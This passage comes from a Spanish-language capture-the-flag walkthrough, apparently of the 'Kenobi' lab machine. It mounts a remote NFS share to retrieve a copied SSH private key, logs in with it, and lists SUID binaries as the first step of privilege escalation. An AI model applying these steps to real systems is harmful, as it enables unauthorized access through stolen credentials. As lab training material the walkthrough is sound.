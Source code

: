 
Copiamos entonces el archivo a la carpeta que podemos montar en nuestra maquina, solo queda entonces montarla:

```shell
mkdir /mnt/Kenobi
mount $IP:/var /mnt/Kenobi
ls -la /mnt/kenobiNFS
```
![Desktop View](/assets/Posts/Kenobi/4.png){: width="972" height="589" }
_Carpeta montada con idrsa_

Ahora tendremos que copiar esta clave a nuestro sistema (recordar que no tendremos permisos en la maquina remota) y darle el permiso apropiado para una clave ssh (`chmod 600`). Luego la podremos utilizar:

```shell
ssh -i id_rsa kenobi@10.10.66.237      
```

Con eso ya estamos dentro, tendremos nuestra primera flag en el directorio de Kenobi!

## Phase 3: Force Priv Esc
Como siempre una de las tacticas basicas es buscar archivos que tengan el SUID Bit configurado para correr como su owner y no como quien los esta ejecutando.

```shell
$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
